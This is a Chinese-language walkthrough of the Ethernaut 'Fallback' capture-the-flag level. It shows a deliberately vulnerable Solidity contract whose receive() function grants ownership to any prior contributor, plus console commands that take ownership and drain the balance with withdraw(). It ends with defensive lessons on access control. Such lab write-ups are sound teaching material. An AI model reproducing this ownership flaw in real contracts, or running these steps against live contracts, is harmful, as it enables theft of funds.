

**这个合约的"主人"不需要靠贡献超过 1000 ETH 去竞争——先贡献 0.0009 ETH 留下记录，再向合约直接转账 0.000001 ETH，`receive()` 就会把 `owner` 拱手相让，随后 `withdraw()` 清空余额。** 破绽在于"谁能触发 owner 变更"这件事上：只有金额门槛，没有身份门槛。

> 环境：OpenZeppelin Ethernaut（Sepolia 测试网）。解题通过浏览器控制台（F12）调用注入的 `contract` 实例，数值型返回值用 `.toString()` 转成可读形式。

## 提示：目标是什么

进入关卡后先看到目标与提示：

> **You will beat this level if**
> 1. you claim ownership of the contract
> 2. you reduce its balance to 0
>
> Things that might help
> - How to send ether when interacting with an ABI
> - How to send ether outside of the ABI
> - Converting to and from wei/ether units (see `help()` command)
> - Fallback methods

即：**成为合约 owner**，并**把合约余额归零**。

## 合约解析：谁、在什么条件下能当 owner

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions; // 记录每个地址的贡献值

    address public owner;                             // 当前 owner

    constructor() {
        owner = msg.sender;                            // 部署者成为 owner
        contributions[msg.sender] = 1000 * (1 ether);  // 初始贡献 1000 ETH（wei 计）
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    // 可接收 ETH，单笔贡献必须 < 0.001 ether
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        // 贡献一旦超过 owner 的贡献，当前发送者成为新 owner
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    // 只读，链外调用不耗 Gas
    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    // 仅 owner 可调用，把合约全部余额转给 owner（transfer：2300 Gas）
    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    // 纯 ETH 转账时触发：只要发送金额 > 0 且该地址已有贡献记录，立即成为新 owner
    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

### 两条"成为 owner"的路径

| 路径              | 触发入口       | 条件                                                   | 代价           | 可行性   |
| ----------------- | -------------- | ------------------------------------------------------ | -------------- | -------- |
| A：贡献超过 owner | `contribute()` | 累计贡献 > owner 的 **1000 ETH**（单笔 < 0.001 ETH）   | 天文数字       | 不现实   |
| B：先贡献、再转币 | `receive()`    | 之前贡献过 **任意 > 0** 的金额，且本次转账金额 **> 0** | 不到 0.001 ETH | 几乎免费 |

关键点在 `receive()` 的两个判断：

- `msg.value > 0` —— 只是要求"这次真转了钱"；
- `contributions[msg.sender] > 0` —— 只是要求"过去贡献过"，**不检查身份，也不检查贡献了多少**。

因此攻击者不需要凑 1000 ETH，只需要先做一笔极小贡献"敲门"，再走纯转账路线即可。完整的流程见下图的攻击路径（红色分支）：



## 攻击步骤：先"敲门"，再接管，最后提款

在网页下方点击"生成新实例"，按 F12 打开控制台开始。

### 1. 侦察当前状态

先确认 owner 是谁、owner 的贡献是多少：

```js
await contract.owner()
```

```js
await contract.contributions('0x9****1********************').then(v => v.toString())
```

### 2. 留下贡献记录（小于 0.001 ETH）

先满足"贡献不为 0"的前提：

```js
await contract.contribute.sendTransaction({ from: player, value: toWei('0.0009')})
```

查看一下，确认贡献已入账：

```js
await contract.getContribution().then(v => v.toString())
```

### 3. 向合约直接转账，触发 `receive()`

发送一笔非 0 的 ETH 到合约地址。此时两个条件都已满足，`receive()` 会把 owner 设为我的地址：

```js
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')})
```

### 4. 确认接管成功

```js
await contract.owner()
```

返回的地址应该是 `player` 的地址，也就是我的地址。

### 5. 提款并提交

通过 `withdraw()` 撤销合约中的全部余额：

```js
await contract.withdraw()
```

然后回到页面点击"提交实例"，两个目标（成为 owner、余额归零）都已达成。

## 根本原因：为什么 `require` 没拦住

防护逻辑单独看每一条都"合理"，但组合起来有漏洞：

- `contribute()` 用单笔 **< 0.001 ETH** 的限制，防的是攻击者靠大额贡献去超过 owner 的 1000 ETH 贡献值。
- 可它同时给每个地址留下了**任意小的贡献记录**，而这条记录正是 `receive()` 放行的唯一"门票"。
- `receive()` 只校验 `msg.value > 0` 与 `contributions[msg.sender] > 0`，**没有校验调用者身份、贡献金额或次数**——于是只要先花极小金额"敲门"，再走一次纯转账，owner 就会在无任何鉴权的情况下被改写。

两条路径共享同一个"成为 owner"的目标，防线只加在了昂贵的那条路（A）上，廉价的那条路（B）却完全没有设防。

## 结论与经验

- **状态变更入口必须做身份校验**：任何能把 `owner` 改写的函数（含 `receive()` / `fallback()`）都应有 `onlyOwner` 或等价授权检查，不要依赖"谁先贡献过/谁先做过某动作"这类弱前提。
- **单笔限额防不住组合拳**：先小额操作建立状态、再触发另一个无鉴权的入口，是低成本打穿合约的常见组合；审计时要把"能改状态的每个入口 + 前置状态条件"串起来看。
- **能收 ETH 的函数都是攻击面**：`receive()`/`fallback()` 属于纯转账也会执行的代码，应和其它业务函数同等对待，而不是当成"自动收款工具"。
